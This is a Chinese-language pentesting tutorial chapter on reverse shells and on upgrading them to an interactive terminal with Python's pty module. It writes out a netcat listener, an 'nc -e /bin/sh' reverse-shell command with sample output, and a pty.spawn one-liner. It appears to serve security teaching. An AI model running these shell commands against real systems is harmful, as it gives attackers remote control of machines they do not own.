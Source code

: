 ##伪终端

这一章,我们来讲讲如何使用python做一个伪终端.不过在这之前你需要先了解一点伪终端的意思,还有一些技巧.这个我们会在下面讲到:

伪终端其实就是命令终端(cmd.exe,/bin/sh)通过网络接口反弹给攻击者,或者是新建一个监听端口反弹一个终端给攻击者,值得注意的就是原终端对于标准的输入,输出是不做处理的(stdin/stdout/stderr),同样的反弹的shell也是不对它做处理的.(ssh访问都是直接从键盘上读取).

这意味着有一些特殊的命令能够帮助你反弹shell,像我们最常见的就是使用netcat命令来反弹shell:

```
#启动netcat监听器
~$ nc -lvp 443
listening on [any] 443 ...
 
# 使用netcat反弹'/bin/sh'
~$ nc 127.0.0.1 443 -e /bin/sh
```

现在你可能注意到你看不到一些命令提示,我们输入几个命令试试:

```
id
uid=1000(kali) gid=1000(kali) groups=1000(kali)
 
uname -a
Linux kali 3.12-kali1-amd64 #1 SMP Debian 3.12.6-2kali1 (2014-01-06) x86_64 GNU/Linux
 
ls
bin
boot
dev
etc
home
initrd.img
lib
lib64
media
mnt
opt
proc
root
run
sbin
selinux
srv
sys
tmp
usr
var

```

上面这些命令运行会很正常,但是当你运行一些需要用户再次输入验证或者是编辑的命令就可能会出现问题,
例如(FTP,SSH,vi等),因为我们虚拟的终端它只有标准的输入输出功能,不会再次返回验证输入.
但是对于写文件我们可以使用echo命令来写入内容,这个对于现实是一点儿也不违和的.

在使用的过程中你也可能已经注意到了,它并有任何的提示性消息给您.这是因为命令的的提示消息是同过STDERR函数来传递的,
而在前面我们也讨论过我们实现的并不是一个原生终端,如果你想执行一些二进制的执行文件,譬如是meterpeter的执行文件就可能会出现错误.

对于已经安装了python的系统,我们可以使用python提供的pty模块,只需要一行脚本就可以创建一个原生的终端.下面是演示代码.执行第一行前
我还没有进入终端.

```
python -c "import pty;pty.spawn('/bin/bash')"

kali@kali:/$ uname -a
uname -a
Linux kali 3.12-kali1-amd64 #1 SMP Debian 3.12.6-2kali1 (2014-01-06) x86_64 GNU/Linux

kali@kali:/$ id
id
uid=1000(kali) gid=1000(kali) groups=1000(kali)

kali@kali:/$ ls
ls
bin    dev         home   lib64  opt      srv  usr
boot   initrd.img  media  proc   sbin     sys  var
etc    lib         mnt    root   selinux  tmp
kali@kali:/$


```

-c参数选项允许我们直接在命令终端里面执行指定脚本,上面那段脚本,我使用分号把两行代码合并为了一行.这样写并不为过.还有一点.
就是双引号里面只能使用单引号把/bin/bash引起来,如果使用双引号就出出现语法错误.就像下面这样:


```
python -c "import pty;pty.spawn("/bin/bash")"
```


虽然到目前为止写的虚拟终端并没有原生终端那样好,但是花点时间去折腾然后不断的去完善.相信会做的更好.
大家可能在渗透测试的时候会发现有些时候系统的命令终端是不允许直接访问的,那么这个时候用Python虚拟化一个终端相信会让你眼前一亮.
